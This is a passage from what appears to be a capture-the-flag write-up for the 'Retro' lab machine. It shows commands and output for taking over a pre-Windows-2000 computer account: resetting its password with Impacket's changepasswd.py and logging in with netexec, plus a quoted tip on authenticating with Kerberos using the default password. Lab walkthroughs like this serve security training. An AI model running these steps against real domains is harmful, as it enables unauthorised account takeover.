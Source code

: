 However, in the help there’s an option for to set the protocol:

```
  -protocol {smb-samr,rpc-samr,kpasswd,ldap}, -p {smb-samr,rpc-samr,kpasswd,ldap}

```

I’ll use RPC:

```

oxdf@hacky$ changepasswd.py -newpass 0xdf0xdf 'retro.vl/BANKING$:banking@dc.retro.vl' -protocol rpc-samr
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Changing the password of retro.vl\BANKING$
[*] Connecting to DCE/RPC as retro.vl\BANKING$
[*] Password was changed successfully.

```

It works:

```

oxdf@hacky$ netexec smb dc.retro.vl -u 'banking$' -p 0xdf0xdf
SMB         10.129.234.44   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:retro.vl) (signing:True) (SMBv1:False) 
SMB         10.129.234.44   445    DC               [+] retro.vl\banking$:0xdf0xdf 

```

#### via Kerberos Auth

On originally publishing this post, I got [this reply from mpgn](https://x.com/mpgn_x64/status/1937982462660911440):

> you don't need to change the password of a pre2k computer account, just use kerberos ex:  
>   
> nxc smb ip -u server$ -p server -k   
>   
> if you want the tgt (for other tools)  
>   
> nxc smb ip -u server$ -p server -k --generate-tgt ticket  
>   
> I don't know why everyone is changing the password 🤷‍♂️
>
> — mpgn (@mpgn\_x64) [June 25, 2025](https://twitter.com/mpgn_x64/status/1937982462660911440?ref_src=twsrc%5Etfw)

That actually does work here (on a fresh boot of Retro):

```

oxdf@hacky$ netexec smb dc.retro.vl -u 'BANKING$' -p banking -k
SMB         dc.retro.vl     445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:retro.vl) (signing:True) (SMBv1:False) 
SMB         dc.retro.vl     445    DC               [+] retro.vl\BANKING$:banking 

```
